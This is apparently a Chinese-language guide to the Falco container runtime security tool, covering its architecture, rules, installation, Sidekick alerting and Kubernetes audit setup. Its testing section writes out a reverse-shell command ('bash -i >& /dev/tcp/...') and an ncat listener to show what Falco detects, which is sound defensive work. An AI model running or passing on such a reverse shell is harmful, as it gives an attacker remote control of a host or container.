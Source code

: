 # [falco](https://falco.org)

* 是云原生的容器运行时（Runtime）安全项目，主要有 Sysdig 为主开发，为 CNCF 项目，近日 Sysdig 宣布将底层的内核模块、eBPF 探针和库贡献给 CNC
* 为云原生容器安全而生，可以通过灵活的规则引擎来描述任何类型的主机或者容器的行为和活动，在触发策略规则后可以实时发出警报告警，同时支持将告警集成到各种工作流或者告警通道；
* 同时 Falco 可利用最新的检测规则针对恶意活动和 CVE 漏洞发出警报，而且规则可以实现动态更新和开箱即用。

## 架构

* Falco：为基于规则扫描后的命令行展示，有点类似于 tcpdump，本身可以提供 gRPC 服务，用于前端界面连接和采集；
* Rule Engine：将 Falco 中定义的各种 yaml 规则解析到规则引擎中，并负责过滤和触发事件至 Falco 中；
* libsinsp：对于从 libscap 上报的底层事件进行信息获取、补充并发送至 Rule Engin 进行过滤；
* libscap：该库提供了类似于 libpcap（tcpdump 底层网络获取库）的功能，用于设置采集控制参数、保存文件和操作系统层面状态的搜集；
* kernel
  - Kernel Module：使用的内核模块，采用动态内核模块支持 (DKMS) 来编译和安装内核模块；
  - eBPF Probe：作为 Kernel Module 的替换技术，只在内核较高的系统中才能完全支持，通过设置环境变量 FALCO_BPF_PROBE 进行切换；
* Falco 还支持 k8s audit 日志的采集，需要在 k8s kube-apiserver 则通过 webhook 配置支持，支持的字段可以通过 falco --list k8s_audit 进行查看

## 事件源

* Falco Drivers：Falco 的内置驱动主要有 Kernel Module、eBPF Probe 和用户空间检测 3 种。当前用户空间检测已经具备了整体框架，但是目前还没有官方的支持 Driver（v0.24.0 版本开始支持）。其中 Kernel Module 和 eBPF Probe 主要是采集系统的系统调用（syscall），eBPF Probe 是作为 Kernel Module 替代方案存在的，性能高效且能够提供更好的安全性（避免内核 Bug），但是对于内核版本有一定的要求（一般建议 4.10 以后 ）。
* Kubernetes 审计事件：对接 k8s 系统中 kube-apiserver 产生的审计事件，规则在 falco k8s_audit_rules.yaml[2] 中定义，该事件源需要修改 kube-apiserver 中对于 audit 日志的保存方式，需要调整成基于 webhook 的方式，将审计日志发送到 Falco 内置的服务端口上。
* 丢弃系统调用事件：Falco 可以智能检测系统调用丢弃的事件（ v0.15.0 以后的版本），可以基于规则进行告警。

## 规则

* falco_rules.yaml：falco 中关于文件、进程和网络等相关的规则定义；
* falco_rules.local.yaml：用于我们本地扩展规则；
* k8s_audit_rules.yaml：k8s 审计日志规则，内部启动内置服务 8765 端口在默认路径 /k8s_audit 上接受 k8s 的审计日志并经过规则过滤生成相对应的告警，[完整文件](https://github.com/falcosecurity/falco/tree/master/rules)
* 字段
  - rule：规则的名字
  - desc：规则的描述
  - condition：条件是重点，其中的各种条件 allowed_port 、inbound_outbound 等都为规则中定义的宏，这些宏也可以在本文件中找到；例如宏 inbound_outbound 的定义
  - output：符合条件事件的输出格式，文字中 %proc.cmdline 等为变量从本次触发的事件中提取
  - priority：告警的优先级
  - tags：本条规则的 tags 分类，本条为 network

```yaml
- rule: Outbound or Inbound Traffic not to Authorized Server Process and Port
  desc: Detect traffic that is not to authorized server process and port.
  condition: >
    allowed_port and
    inbound_outbound and
    container and
    container.image.repository in (allowed_image) and
    not proc.name in (authorized_server_binary) and
    not fd.sport in (authorized_server_port)
  output: >
    Network connection outside authorized port and binary
    (command=%proc.cmdline connection=%fd.name user=%user.name user_loginuid=%user.loginuid container_id=%container.id
    image=%container.image.repository)
  priority: WARNING
  tags: [network]
```

## 安装

```sh
# 单机安装
apt-get -y install linux-headers-$(uname -r)
# 或者
yum -y install kernel-devel-$(uname -r)

# Docker 方式运行
sudo docker pull falcosecurity/falco:latest
sudo docker run --rm -i -t \
     --privileged \
     -e FALCO_BPF_PROBE="" \
     -v /var/run/docker.sock:/host/var/run/docker.sock \
     -v /dev:/host/dev \
     -v /proc:/host/proc:ro \
     -v /boot:/host/boot:ro \
     -v /lib/modules:/host/lib/modules:ro \
     -v /usr:/host/usr:ro \
     -v /etc:/host/etc:ro \
     falcosecurity/falco:latest
```

## FalcoSideKick 告警集中化展示

* 支持将日志按照 gGPRC/File/STDOUT/SHELL/HTTP 等多种方式进行输出
* 可以通过 HTTP 方式将日志汇总到部署的 FalcoSideKick 服务，FalcoSideKick 服务可以实现更加丰富的告警通道能力，包括 Slack/Altermanager/SMTP 等多种告警通道输出。同时 FalcoSideKick 还支持将数据输出到 FalcoSideKick UI，用户可以通过界面进行查看

```yaml
# falco.yaml
json_output: true
json_include_output_property: true
http_output:
  enabled: true
  url: "http://172.17.0.14:2801/"
# 开启了内部嵌入服务
webserver:
   enabled: true
   listen_port: 8765
   k8s_audit_endpoint: /k8s_audit
   ssl_enabled: false
   ssl_certificate: /etc/falco/falco.pem
```

```sh
kill -1 $(cat /var/run/falco.pid)

# 启动 falcosidekick 和 falcosidekick-ui
sudo docker run -d -p 2801:2801 -e WEBUI_URL=http://172.17.0.14:2802 falcosecurity/falcosidekick
sudo docker run -d -p 2802:2802 falcosecurity/falcosidekick-ui
```

## 测试

```sh
# 在 Falco 机器上通过登录到本机的 Pod 实例（或者容器实例）中测试：

# 在另外一个窗口执行
docker exec -ti e6a37f5f7c33  /bin/bash -il

# 在一台攻击的机器上启动 ncat：
# ncat -l -p 10000
# 在 shell 反弹成功后可以拿到 Pod 的 shell 权限，界面如下：
  root@xxx:/#

# 在上个样例中登录的 Pod 中执行一下命令，那么在上述攻击的机器的命令行中就会得到该 Pod 的 shell 权限,对于这种行为 falco 可以进行检测和发现
root@backend-05:/# bash -i >& /dev/tcp/a.b.c.d/10000 0>&1
```

## k8s audit 日志采集

* 启动一个内部内嵌的服务端，用于接受 k8s audit 日志输出，需要在 k8s 中定义相关的规则将 audit 日志提交至该服务，然后经相关规则定义后，输出可能触发的告警信息

```sh
cat <<EOF > /etc/kubernetes/audit-webhook-kubeconfig
apiVersion: v1
kind: Config
clusters:
- cluster:
    server: http://<ip_of_falco>:8765/k8s_audit
  name: falco
contexts:
- context:
    cluster: falco
    user: ""
  name: default-context
current-context: default-context
preferences: {}
users: []
EOF

# api-server 启动中添加对应的文件：
--audit-policy-file=/etc/kubernetes/audit-policy.yaml --audit-webhook-config-file=/etc/kubernetes/audit-webhook-kubeconfig
```
